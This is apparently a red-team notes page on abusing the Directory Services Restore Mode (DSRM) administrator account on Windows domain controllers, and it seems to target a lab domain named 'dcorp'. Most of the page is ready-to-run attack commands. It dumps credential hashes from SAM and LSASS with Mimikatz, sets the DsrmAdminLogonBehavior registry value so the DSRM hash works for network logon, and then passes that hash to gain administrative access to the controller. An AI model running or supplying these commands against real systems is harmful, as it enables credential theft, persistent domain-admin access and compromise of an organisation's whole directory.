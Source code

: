 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.



## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

```powershell
# dumping from sam - DSRM local Administrator hash
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' 
```

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' 
```



## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

```powershell
# Entering DC session
Enter-PSSession -ComputerName dcorp-dc

# Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -Verbose

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehavior' -Value 2 -PropertyType DWORD -Verbose
```

## Passing the hash

```powershell
# /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'


# Check if worked
ls \\dcorp-dc\C$
```

